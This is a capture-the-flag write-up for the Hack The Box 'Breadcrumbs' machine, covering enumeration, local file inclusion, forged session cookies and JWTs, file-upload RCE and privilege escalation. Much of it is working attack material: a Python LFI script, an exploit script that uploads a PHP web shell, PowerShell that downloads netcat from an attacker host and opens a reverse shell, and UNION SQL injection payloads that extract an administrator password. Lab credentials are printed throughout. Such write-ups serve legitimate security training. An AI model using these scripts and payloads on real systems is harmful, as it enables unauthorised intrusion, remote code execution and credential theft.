

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.228 breadcrumbs.htb

**nmap scan:**
```bash
PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 9d:d0:b8:81:55:54:ea:0f:89:b1:10:32:33:6a:a7:8f (RSA)
|   256 1f:2e:67:37:1a:b8:91:1d:5c:31:59:c7:c6:df:14:1d (ECDSA)
|_  256 30:9e:5d:12:e3:c6:b7:c6:3b:7e:1e:e7:89:7e:83:e4 (ED25519)
80/tcp    open  http          Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
|_http-title: Library
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  ssl/http      Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1h PHP/8.0.1)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1h PHP/8.0.1
|_http-title: Library
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
3306/tcp  open  mysql?
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, Help, JavaRMI, Kerberos, LDAPBindReq, NCP, NotesRPC, RPCCheck, SIPOptions, SMBProgNeg, SSLSessionReq, TerminalServer, WMSRequest, X11Probe: 
|_    Host '10.10.15.71' is not allowed to connect to this MariaDB server
5040/tcp  open  unknown
7680/tcp  open  pando-pub?
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

* SMB access denied without password
    
      ❯ cme smb 10.10.10.228 -u '' -p ''
      SMB         10.10.10.228    445    BREADCRUMBS      [*] Windows 10.0 Build 19041 x64 (name:BREADCRUMBS) (domain:Breadcrumbs) (signing:False) (SMBv1:False)
      SMB         10.10.10.228    445    BREADCRUMBS      [-] Breadcrumbs\: STATUS_ACCESS_DENIED

* Nothing found in ssl certificate.
* sql server not allowed remote host

      ❯ mysql -h 10.10.10.228
      ERROR 1130 (HY000): Host '10.10.15.71' is not allowed to connect to this MariaDB server

## WebApp

webapp have a search option which search book in the database.


Intercept search request in the burpsuite and found extra parameter in the search request.


Changing the method value to 1 give an interesting error.


adding `book` post parameter and send the request and its value reflect in the `file_get_contents` directory path.


# Foothold

## LFI

Try to include server `../includes/bookController.php` file to check lfi and Get `bookController.php` file.


This script simply including file from filesystem if method set to `1` with parameter `book` and second thing is that this script including `../db/db.php`
```php
... [snip] ...
    require '../db/db.php';
... [snip] ...
    elseif ($_POST['method'] == 1){
        $out = file_get_contents('../books/' . $_POST['book']);
    }
... [snip] ...
```

Using lfi vuln read that `db.php` file amd get dbcreds, But remote host not allowed access to mysql server.
```php
... [snip] ...
$user="bread";
$password="jUli901";
... [snip] ...
```

Get the lfi but burp out of lfi look awful so i create a simple python script. Not perfect but can do the job.
```py
import requests as r
import sys

url = 'http://10.10.10.228/includes/bookController.php'


def lfi(file):
    data = {
        "title": "lfi",
        "author": "lfi",
        "method": 1,
        "book": file
    }

    rspn = r.post(url, data=data)
    cleaned = rspn.text.replace('\\r\\n', '\n').replace('\\', '')
    return cleaned


print(lfi(sys.argv[1])[1:-1])
```

### Portal

Running Gobuster found `/portal`, which redirect to `/portal/login.php`



From that error on login page, found some usernames


Intercepting login request found same method parameter.


replacing `method` value to `1` return error from `\portal\authController.php`. Viewing the source code of that file found that `passwordConf` parameter used in sighup.

After reading `authController.php`, some things which i understand.

1. There are two methods of login. `$_POST['method'] == 1` uses username and password for **signup**. `$_POST['method'] == 0` use username and password for **login** and set php session cookie and jwt token.
2. php session cookie generated manually from `cookie.php` file.

    

  * What `cookie.php` doing is taking username
    * Chose random number from the length of the username
    * generate key with some text and that random number's index character from username
    * and join user name and md5sum of the key.

3. Found jwt secret key and payload from `authController.php`

    

  * jwt only use username to generate token.
  * If we signup with new account we get php session cookie and jwt token.

      

From user Dashboard, get bunch of locations, but there is only one location "File management" `/portal/php/files.php` which redirect to `index.php`.

View that file source code with lfi, found that it is **only accessible by user "paul"**, who is the admin and **this file have file upload option**.


`files.php` also contains a javascript `/assets/js/files.js`, which appending `.zip` to uploaded file and also including `/includes/fileController.php`


`/includes/fileController.php` is checking if requested user is user "paul" or not by **decoding requested session's jwt token** and **session's username**. If it is equal to "paul" than upload file in `/portal/uploads/` directory. 


## File upload to RCE

**First,** generate user "paul" php session id. Because of the length of the user "paul" there are 4 possible session ids and 1/16 chances of login as user "paul".

**Second,** Generate jwt token for user "paul". This is always same because there only 1 static value in the payload.

Here is php script to generate session ID and jwt token.
```php
<?php

/*
First run "composer require firebase/php-jwt"
*/

require **DIR** . '/vendor/autoload.php';
use Firebase\JWT\JWT;

$username = "paul";

function makesession($username){
    $max = strlen($username) - 1;
    $seed = rand(0, $max);
    $key = "s4lTy_stR1nG_".$username[$seed]."(!528./9890";
    $session_cookie = $username.md5($key);

    return $session_cookie;

}

echo makesession($username) . "\n";

$secret_key = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e';

$payload = array(
    "data" => array(
        "username" => $username
));

$jwt = JWT::encode($payload, $secret_key, 'HS256');
echo $jwt . "\n";

// $decoded = JWT::decode($jwt, $secret_key, array('HS256'));
// var_dump($decoded);
// echo $decoded;
?>
```

Loop Through all possible session IDs and when u get a positive hit, save that session IDs and jwt token in cookie storage and refresh the page.


Than upload the file, intercept the request and change the file extension and forward that request. Go to `/portal/uploads/` and execute that php file.

Here's my exploit script
```py
import argparse
import string
import sys
import jwt
import requests as r
import random
import hashlib

parser = argparse.ArgumentParser()
url = 'http://10.10.10.228/portal'
admin_name = 'paul'
secret = '6cb9c1a2786a483ca5e44571dcc5f3bfa298593a6376ad92185c3258acd5591e'
payload = {"data": {"username": admin_name}}
encoded_jwt = jwt.encode(payload, secret, algorithm="HS256")
# decoded_jwt = jwt.decode(encoded_jwt, secret, algorithms=["HS256"])
rnd_word = ''.join(random.choices(string.ascii_letters + string.digits, k=8))


def makesession(username):
    maximum = len(username) - 1
    seed = random.randint(0, maximum)
    key = "s4lTy_stR1nG_" + username[seed] + "(!528./9890"
    session_cookie = username + hashlib.md5(key.encode()).hexdigest()
    return session_cookie


def admin(admin_session):
    cookies_dict = {"PHPSESSID": admin_session, "token": encoded_jwt}
    admin_rsnp = r.get(f'{url}/index.php', cookies=cookies_dict)
    return admin_rsnp.text


def upload_file():
    loop = True
    print("[+] Brute frocing session ID")
    while loop:
        gen_session = makesession(admin_name)
        # print(gen_session)
        check_paul = admin(gen_session)
        if "<h3>Dashboard</h3>" in check_paul:
            cookies_dict = {"PHPSESSID": gen_session, "token": encoded_jwt}
            data = "-----------------------------21178199893857990766125057944\r\nContent-Disposition: form-data; " \
                   f"name=\"file\"; filename=\"shell.php\"\r\nContent-Type: application/x-php\r\n\r\n<?php echo " \
                   f"shell_exec($_POST[\"cmd\"]);?>\r\n-----------------------------21178199893857990766125057944\r" \
                   f"\nContent-Disposition: form-data; " \
                   f"name=\"task\"\r\n\r\n{rnd_word}.php\r\n" \
                   f"-----------------------------21178199893857990766125057944--\r\n "
            headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:89.0) Gecko/20100101 Firefox/89.0",
                       "Accept": "*/*",
                       "Accept-Language": "en-US,en;q=0.5",
                       "Accept-Encoding": "gzip, deflate",
                       "X-Requested-With": "XMLHttpRequest",
                       "Content-Type": "multipart/form-data; boundary=---------------------------21178199893857990766125057944",
                       "Content-Length": str(len(data)),
                       "Origin": "http://10.10.10.228",
                       "DNT": "1",
                       "Connection": "close",
                       "Referer": f"{url}/php/files.php"}

            upload_file = r.post(f'{url}/includes/fileController.php', headers=headers, data=data, cookies=cookies_dict,
                                 allow_redirects=True)
            print("[+] " + upload_file.text)
            print(f"Filenme: {rnd_word}")
            loop = False


def exec_file(file_name, cmd):
    post_cmd = {"cmd": cmd}
    execute = r.post(f'{url}/uploads/{file_name}.php', data=post_cmd)
    print(execute.text)


parser.add_argument('-u', action='store_true', help="upload file")
parser.add_argument('-e', action='store_true', help="execute uploaded file")
parser.add_argument("-f", help="uploaded file name without Extension")
parser.add_argument("-c", help="windows cmd Command")
args = parser.parse_args()

if  **name** == "**main**":
    try:
        if args.u:
            upload_file()
        elif args.e:
            if args.f and args.c:
                exec_file(args.f, args.c)
            else:
                print("[-] Missing argument")
        else:
            print(f"[-] Try python {sys.argv[0]} -h")
    except KeyboardInterrupt:
        print('User has exited the program')
```

**Getting Reverse shell** by uploading netcat on the nbox.
```bash
powershell IWR -uri http://10.10.15.71/nc64.exe -OutFile C:\\windows\\temp\\nc64.exe
cmd /c c:\\windows\\temp\\nc64.exe 10.10.0.4 4141 -e powershell.exe
```


# Privesc

2 user on the box.


Found user "juliette" creds inside `C:\Users\www-data\Desktop\xampp\htdocs\portal\pizzaDeliveryUserData`


<!--juliette:jUli901./())!-->

ssh with found creds.


## Stickynotes backups

inside user "" home folder there is a `todo.html` in "Desktop" folder


they are talking about password in sticky-notes application.

Founding sticky-notes files `C:\Users\juliette\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState`.


Transfer files with smb
```bash
impacket-smbserver -smb2support smb .
cp <filename> \\10.10.15.71\smb
```


running strings over "plum.sqlite-wal" found "development" user's (looks like a) password
```bash
❯ strings plum.sqlite-wal| grep development | tail -n1
\id=fc0d8d70-055d-4870-a5de-d76943a68ea2 development: fN3)sN5Ee@g
```

And password work for ssh login


<!--development:fN3)sN5Ee@g-->

Now we can access to `C:\Development` and there is a linux binary.

Download to local machine with smb


open in ghidra, This binary connecting to local server on port 1234 and retrieving admin user password.


If we check the netstat on windows, there is a port 1234 
```bash
TCP    127.0.0.1:1234         0.0.0.0:0              LISTENING
```

Forwarding port with ssh and sending same request with curl gives the admin password
```bash
❯ sshpass -p 'fN3)sN5Ee@g' ssh development@breadcrumbs.htb -N -L 1234:127.0.0.1:1234 -f
❯ curl 'http://127.0.0.1:1234/index.php?method=select&username=administrator&table=passwords'
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

## sql injection

After test url parameters, Found sql injection in "username" parameter.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+OR+1=1+--+-&table=passwords"
selectarray(1) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
}
```

Testing union injection.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+1--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(1) "1"
  }
}
```

Get the database name.
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+database()--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(5) "bread"
  }
}
```

Already know the table name from url parameter: `table=passwords`
```bash
❯ curl "http://127.0.0.1:1234/index.php?method=select&username=administrator'+union+select+password+FROM+bread.passwords--+-&table=passwords"
selectarray(2) {
  [0]=>
  array(1) {
    ["aes_key"]=>
    string(16) "k19D193j.<19391("
  }
  [1]=>
  array(1) {
    ["aes_key"]=>
    string(44) "H2dFz/jNwtSTWDURot9JBhWMP6XOdmcpgqvYHG35QKw="
  }
}
```

get the key and encrypted password. Decrypt with cyberchef


ssh with administrator password `p@ssw0rd!@#$9890./`.